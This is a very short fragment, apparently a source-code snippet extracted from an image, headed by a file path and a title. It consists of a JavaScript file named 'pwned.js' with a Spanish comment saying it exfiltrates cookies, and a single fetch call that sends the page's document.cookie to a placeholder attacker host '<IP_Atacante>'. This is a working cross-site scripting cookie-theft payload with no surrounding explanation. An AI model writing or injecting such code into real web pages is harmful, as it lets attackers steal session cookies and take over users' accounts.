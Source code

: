 // pwned.js - exfiltra cookies mediante fetch (asíncrono)
fetch('http://<IP_Atacante>/log?c=' + encodeURIComponent(document.cookie), {method: 'GET', mode: 'no-cors'});